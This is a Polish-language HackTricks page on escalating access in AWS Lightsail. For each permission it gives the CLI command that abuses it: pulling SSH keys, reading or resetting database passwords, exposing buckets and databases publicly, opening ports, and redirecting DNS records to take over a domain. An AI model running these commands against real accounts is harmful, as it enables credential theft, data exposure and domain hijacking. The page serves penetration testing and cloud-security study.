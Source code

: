 # AWS - Lightsail Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Lightsail

Aby uzyskać więcej informacji o Lightsail, sprawdź:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ważne jest, aby zauważyć, że Lightsail **nie używa ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, więc nie możesz nadużywać tej usługi do privesc. Jednak **wrażliwe dane** takie jak kod, klucze API i informacje o bazach danych mogą być znalezione w tej usłudze.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie pozwoli ci uzyskać klucze SSH do uzyskania dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie pozwoli Ci wygenerować klucze SSH do uzyskania dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie pozwoli Ci uzyskać klucz do dostępu do koszyka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w wiadrze.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie pozwoli Ci uzyskać dane logowania do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie pozwoli Ci zmienić hasło do dostępu do bazy danych:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Jeśli baza danych nie jest publiczna, możesz również uczynić ją publiczną z tymi uprawnieniami za pomocą

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu. Należy zauważyć, że wywołanie to zamknie każdy port otwarty, który nie jest na liście.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

Te uprawnienia pozwalają na przyznanie instancjom dostępu do koszyka bez dodatkowych poświadczeń.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencjalny wpływ:** Potencjalny nowy dostęp do koszyków z wrażliwymi informacjami.

### `lightsail:UpdateBucket`

Dzięki temu uprawnieniu atakujący mógłby przyznać własnemu kontu AWS dostęp do odczytu koszyków lub nawet uczynić koszyki publicznymi dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalny wpływ:** Potencjalny nowy dostęp do kubełków z wrażliwymi informacjami.

### `lightsail:UpdateContainerService`

Dzięki tym uprawnieniom atakujący mógłby przyznać dostęp do prywatnych ECR z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalny wpływ:** Uzyskanie wrażliwych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Napastnik z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
